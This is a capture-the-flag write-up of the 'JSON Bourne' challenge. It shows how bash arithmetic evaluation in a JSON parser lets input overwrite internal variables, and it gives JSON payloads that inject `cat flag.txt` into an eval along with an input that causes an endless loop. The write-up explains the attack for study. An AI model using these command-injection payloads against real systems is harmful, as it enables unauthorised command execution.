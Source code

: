 # JSON Bourne (misc, 200p, 46 solved) [bash script]


After looking carefully at the code and learning the bash scripting syntax, we found in parser.sh:

```
parseString() {
    local input=$1
    local i=$2
    local res=$3
    declare -Ag $res

    makeVar
    eval ${res}'[_type]=$var_name'
    makeKind "STRING" $var_name

    getString "$input" "$i" "$res"

    local task_i
    local result_str="${!res}"
    for (( task_i=0; task_i < ${#result_str}; task_i++ )); do
        if [[ "${result_str:$task_i:5}" = "task " ]]; then
            local suffix="${result_str:$((task_i+5)):$((${#result_str}-task_i-5))}"
            if [[ "$((suffix > 0))" = "1" && "$((suffix <= 8))" = "1" ]]; then
                local color=$var_name
                normalizeNumber "$suffix" $color "var_"
                eval ${res}'[_color]=${color}'
            fi
        fi
    done
}
```
in particular this line:

```
if [[ "$((suffix > 0))" = "1" && "$((suffix <= 8))" = "1" ]]; then
```

after fuzzying around, we noticed that allows arithmetic assignment, by attempting to use this line:

```
{"task 1=12":"as"}
```

Then we used this vulnerability to rewrite  `_var_name_i`  in such a way that some new variables used in evals would be somehow "double referenced".

We ended up in :

```
["task _var_name_i=10","var_11","task _var_name_i=10",{"task _var_name_i=13":"=SHELL","var_10":"b"},"concat",{"ta":["ta","aT","task _var_name_i=10",{"task _var_name_i=13":"};cat flag.txt;{","var_12":"b"},"l00p"]}]
```

Which, after a grooming phase by @Zom, could also be written as:

```
{"task _var_name_i=10":"};cat flag.txt;#
```

Curiously, changing the value of ` _var_name_i` could also cause the program to loop forever:
```
{"going":["down","task _var_name_i=10",{"the":"rabbit"},"hole"]}
```
